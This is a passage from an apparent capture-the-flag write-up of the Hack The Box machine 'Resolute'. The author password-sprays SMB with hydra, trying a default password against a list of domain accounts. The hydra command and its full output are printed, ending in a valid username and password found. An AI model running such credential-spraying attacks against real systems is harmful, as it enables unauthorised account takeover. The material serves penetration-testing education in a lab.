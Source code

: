 Negative ghostrider. Authorization error occurred. Marko maybe changed his password. I am going to try `Welcome123@` and `Welcome321!` just for good measure incase he just incremented the password he originally got. 

Nope -- same error. Maybe I am thinking as the wrong user, Marko wasn't necessarily the lazy one here, the admin who provisioned his account was. Perhaps there is another user in the list who also has `Welcome123!` and hasn't changed it yet. I am going to go through the list and see what I come up with, but I also see this as a small opportunity to automate, I am not going to do this manually if I don't have to.

I am going to give hydra a shot:

```console
root@discovery:~/htb/resolute# hydra -t 1 -V -f -L users.txt -p "Welcome123!" 10.10.10.169 smb
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-25 00:19:53
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[ATTEMPT] target 10.10.10.169 - login "Administrator" - pass "Welcome123!" - 1 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "Guest" - pass "Welcome123!" - 2 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "krbtgt" - pass "Welcome123!" - 3 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "DefaultAccount" - pass "Welcome123!" - 4 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "ryan" - pass "Welcome123!" - 5 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "marko" - pass "Welcome123!" - 6 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "sunita" - pass "Welcome123!" - 7 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "abigail" - pass "Welcome123!" - 8 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "marcus" - pass "Welcome123!" - 9 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "sally" - pass "Welcome123!" - 10 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "fred" - pass "Welcome123!" - 11 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "angela" - pass "Welcome123!" - 12 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "felicia" - pass "Welcome123!" - 13 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "gustavo" - pass "Welcome123!" - 14 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "ulf" - pass "Welcome123!" - 15 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "stevie" - pass "Welcome123!" - 16 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "claire" - pass "Welcome123!" - 17 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "paulo" - pass "Welcome123!" - 18 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "steve" - pass "Welcome123!" - 19 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "annette" - pass "Welcome123!" - 20 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "annika" - pass "Welcome123!" - 21 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "per" - pass "Welcome123!" - 22 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "claude" - pass "Welcome123!" - 23 of 27 [child 0] (0/0)
[ATTEMPT] target 10.10.10.169 - login "melanie" - pass "Welcome123!" - 24 of 27 [child 0] (0/0)
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
[STATUS] attack finished for 10.10.10.169 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-25 00:19:58
```
And that was easy! `melanie` looks to be a valid match for `Welcome123!`.
